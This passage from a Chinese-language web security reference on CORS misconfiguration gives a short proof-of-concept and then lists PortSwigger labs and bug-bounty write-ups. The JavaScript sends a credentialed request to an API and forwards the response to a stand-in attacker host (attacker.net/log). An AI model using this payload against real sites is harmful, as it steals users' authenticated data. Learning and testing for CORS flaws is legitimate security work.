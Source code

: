 此PoC需要相应的JS脚本托管在`apiiexample.com`

```js
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.example.com/endpoint',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

## 实验室

* [PortSwigger - 基础Origin反射攻击的CORS漏洞](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)
* [PortSwigger - 允许空Origin的CORS漏洞](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)
* [PortSwigger - 允许可信不安全协议的CORS漏洞](https://portswigger.net/web-security/cors/lab-breaking-https-attack)
* [PortSwigger - 内部网络切换攻击的CORS漏洞](https://portswigger.net/web-security/cors/lab-internal-network-pivot-attack)

## 参考

* [[██████] 跨源资源共享配置错误（CORS） - Vadim (jarvis7) - 2018年12月20日](https://hackerone.com/reports/470298)
* [高级CORS攻击技术 - Corben Leo - 2018年6月16日](https://web.archive.org/web/20190516052453/https://www.corben.io/advanced-cors-techniques/)
* [CORS配置错误导致账户接管 - Rohan (nahoragg) - 2018年10月20日](https://hackerone.com/reports/426147)
* [CORS配置错误导致私密信息泄露 - sandh0t (sandh0t) - 2018年10月29日](https://hackerone.com/reports/430249)
* [www.zomato.com上的CORS配置错误 - James Kettle (albinowax) - 2016年9月15日](https://hackerone.com/reports/168574)
* [CORS配置错误解释 - Detectify博客 - 2018年4月26日](https://blog.detectify.com/2018/04/26/cors-misconfigurations-explained/)
* [跨源资源共享（CORS） - PortSwigger网络安全学院 - 2019年12月30日](https://portswigger.net/web-security/cors)
* [CORS配置错误 | 盗取用户信息 - bughunterboy (bughunterboy) - 2017年6月1日](https://hackerone.com/reports/235200)
* [利用CORS配置错误获取比特币和奖励 - James Kettle - 2016年10月14日](https://portswigger.net/blog/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)
* [利用配置错误的CORS（跨源资源共享） - Geekboy - 2016年12月16日](https://www.geekboy.ninja/blog/exploiting-misconfigured-cors-cross-origin-resource-sharing/)
* [Think Outside the Scope: 高级CORS攻击技术 - Ayoub Safa (Sandh0t) - 2019年5月14日](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)